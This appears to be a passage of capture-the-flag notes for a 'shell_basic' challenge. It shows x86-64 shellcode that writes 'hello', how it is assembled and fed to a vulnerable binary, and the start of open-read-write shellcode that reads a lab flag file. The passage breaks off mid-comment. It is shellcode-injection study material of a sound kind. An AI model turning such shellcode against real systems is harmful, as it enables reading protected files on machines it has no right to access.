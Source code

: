 ```nasm
$ cat write.asm
section .text
global _start
_start:
	;/* write(fd=1, buf='hello', n=48) */
	;/* push 'hello\x00' */
	mov rax, 0x0a6f6c6c6568
	push rax
	mov rsi, rsp
	push 1
	pop rdi
	push 0x6
	pop rdx
	;/* call write() */
	push 1
	pop rax
	syscall
$ nasm -f elf64 write.asm
$ objcopy --dump-section .text=write.bin write.o
$ xxd write.bin
00000000: 48b8 6865 6c6c 6f0a 0000 5048 89e6 6a01  H.hello...PH..j.
00000010: 5f6a 065a 6a01 580f 05                   _j.Zj.X..
$ cat write.bin | ./shell_basic
shellcode: hello
[1]    1592460 done                cat write.bin |
1592461 segmentation fault  ./shell_basic
$
```

### shell_basic

```c
/*
 * Name: S4_06_shell_basic.c
 * $ gcc -o S4_06_shell_basic S4_06_shell_basic.c -masm=intel
 *
 * char buf[0x30];
 *
 * int fd = open("/tmp/flag", RD_ONLY, NULL);
 * read(fd, buf, 0x30); 
 * write(1, buf, 0x30);
 *
 * /home/shell_basic/flag_name_is_loooooong
 * 2F 68 6F 6D 65 2F 73 68 /home/sh
 * 65 6C 6C 5F 62 61 73 69 ell_basi
 * 63 2F 66 6C 61 67 5F 6E c/flag_n
 * 61 6D 65 5F 69 73 5F 6C ame_is_l
 * 6F 6F 6F 6F 6F 6F 6E 67 oooooong
 */

__asm__
(
	".global run_sh\n"
	"run_sh:\n"
	/**
	 * function: open('/home/shell_basic/flag_name_is_loooooong', RD_ONLY, NULL)
	 *
	 * param:
	 * @rax: 2
	 * @syscall: sys_open
	 * @rdi: const char *filename
	 * @rsi: int flags
	 * @rdx: int mode
```